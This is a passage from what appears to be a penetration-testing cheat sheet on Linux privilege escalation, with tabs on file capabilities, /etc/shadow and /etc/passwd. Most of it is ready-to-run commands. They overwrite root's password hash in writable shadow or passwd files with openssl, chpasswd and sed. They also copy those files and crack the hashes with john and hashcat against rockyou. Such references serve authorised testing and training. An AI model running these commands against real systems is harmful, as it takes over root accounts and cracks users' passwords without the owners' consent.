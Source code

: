 {% tab title="Capabilities" %}
Capabilities split `root` privileges into discrete actions that can be independently assigned to processes or binaries. This allows granting only the necessary permissions—such as overriding file ownership or binding to privileged ports—without giving full `root` access.

```bash
getcap -r / 2>/dev/null
```
{% endtab %}

{% tab title="Shadow" %}
Check permissions:

```bash
ls -l /etc/shadow
```

If it is writable, create/modify a user:

```bash
# Generate a new password hash
openssl passwd -1 -salt xyz newpassword
# Replace root's password with the new one
echo 'root:$1$xyz$YOUR_GENERATED_HASH' | chpasswd -e
# Switch to root
su - root
```

If it is readable, copy `shadow` and `passwd` locally and crack them:

{% code overflow="wrap" %}
```bash
# Unshadow files
unshadow passwd shadow > hashes.txt
# Crack with john
john --wordlist=rockyou.txt hashes.txt
# Crack with hashcat
hashcat -m1800 hashes rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Passwd" %}
Check the file's permissions:

```
ls -l /etc/passwd
```

If it is writable, `root`'s password can be changed:

{% code overflow="wrap" %}
```bash
# Generate a new hash
openssl passwd -1 -salt evil password123

# Place the hash between the first and second ':' of root
sed -i 's/^root:[^:]*:/root:$1$evil$F9LZzU/LJjH7ZQZzJX.Zn1:/' /etc/passwd

# Switch user
sudo su
```
{% endcode %}
